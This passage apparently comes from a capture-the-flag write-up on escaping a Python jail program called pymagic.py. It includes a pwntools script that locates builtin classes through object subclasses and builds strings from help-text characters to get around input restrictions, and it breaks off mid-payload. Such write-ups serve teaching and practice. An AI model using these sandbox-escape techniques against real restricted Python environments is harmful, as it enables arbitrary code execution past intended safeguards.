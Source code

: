 to

```python
[
    [A:=B, None][True],
]
```

That's why it appears weird in the attack script above. Actually, it can be simplified:

```python
from pwn import *

context(log_level="debug")

subclasses = str(().__class__.__base__.__subclasses__())

# find the indices of the builtins
# assuming we are using the same Python version as remote

# assuming dict is at 28
dict_index = 28
assert subclasses.split(", ").index("<class 'dict'>") == dict_index
# assuming list is at 42
list_index = 42
assert subclasses.split(", ").index("<class 'list'>") == list_index
# assuming Printer is at 160
printer_index = 160
assert subclasses.split(", ").index("<class '_sitebuiltins._Printer'>") == printer_index
# assuming Helper is at 161
helper_index = 161
assert subclasses.split(", ").index("<class '_sitebuiltins._Helper'>") == helper_index

help_text = ().__class__.__base__.__subclasses__()[helper_index].__doc__


def get_index(index):
    parts = (
        ["True"] * (index % 10)
        + ["A"] * (index // 10 % 10)
        + ["B"] * (index // 100 % 10)
    )
    return "+".join(parts)


# synthesize string from help_text
def synthesize(text):
    res = []
    for ch in text:
        index = help_text.index(ch)
        res.append("S[" + get_index(index) + "]")
    return "+".join(res)


p = process(["python3", "pymagic.py"])
p.recvuntil(b">>> ")
p.sendline(
    (
        # A=10, B=100
        "[A:=True+True+True+True+True+True+True+True+True+True,B:=A*A,"
        # get indices for dict, list, Printer, Helper
        + f"D:={get_index(dict_index)},"
        + f"L:={get_index(list_index)},"
        + f"P:={get_index(printer_index)},"
        + f"H:={get_index(helper_index)},"
```